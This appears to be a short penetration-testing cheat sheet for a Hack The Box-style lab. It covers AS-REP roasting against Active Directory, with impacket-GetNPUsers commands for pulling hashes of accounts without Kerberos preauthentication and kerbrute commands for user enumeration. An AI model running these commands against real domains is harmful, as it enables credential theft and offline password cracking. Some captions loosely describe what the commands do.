 
In this context, GetNPUsers is used to exploit the AS-REP (Authentication Service Response) protocol to request tickets without having the need to provide the account's password. **It targets user accounts that have the "Do not require Kerberos preauthentication" flag set, allowing the retrieval of credentials that can be cracked offline.**


**will give service user**
```sh
impacket-GetNPUsers htb.local/ -dc-ip 10.10.10.161
```

**will bring user hashes**

```sh
impacket-GetNPUsers joshi.local/ -dc-ip 192.168.1.100 -u user-Principal-Name-for-kerberoasting.txt
```


```sh
kerbrute --dc 10.10.10.161 -d htb.local userenum sname.txt 
```

**downgrade hash**

```sh
kerbrute --dc 10.10.10.161 -d htb.local userenum sname.txt --downgrade
```
